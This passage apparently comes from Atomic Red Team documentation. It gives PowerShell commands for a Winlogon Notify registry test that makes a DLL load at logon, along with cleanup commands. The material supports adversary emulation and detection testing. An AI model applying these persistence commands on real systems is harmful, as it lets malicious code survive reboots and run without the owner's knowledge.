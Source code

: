 #### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name "Userinit" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Winlogon Notify Key Logon Persistence - PowerShell
PowerShell code to set Winlogon Notify key to execute a notification package DLL at logon.

Upon successful execution, PowerShell will modify a registry value to execute atomicNotificationPackage.dll upon logon.

Please note that Winlogon Notifications have been removed as of Windows Vista / Windows Server 2008 and that this test thus only applies to erlier versions of Windows.

**Supported Platforms:** Windows


**auto_generated_guid:** d40da266-e073-4e5a-bb8b-2b385023e5f9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_to_execute | Path of notification package to execute | path | C:&#92;Windows&#92;Temp&#92;atomicNotificationPackage.dll|
| function_to_execute | Function in notification package to execute | string | AtomicTestFunction|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\AtomicRedTeam" -Force
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\AtomicRedTeam" "DllName" "#{binary_to_execute}" -Type ExpandString -Force
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\AtomicRedTeam" "Logon" "#{function_to_execute}" -Force
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\AtomicRedTeam" "Impersonate" 1 -Type DWord -Force
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\AtomicRedTeam" "Asynchronous" 0 -Type DWord -Force
```

#### Cleanup Commands:
```powershell
Remove-Item "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify" -Force -ErrorAction Ignore
```
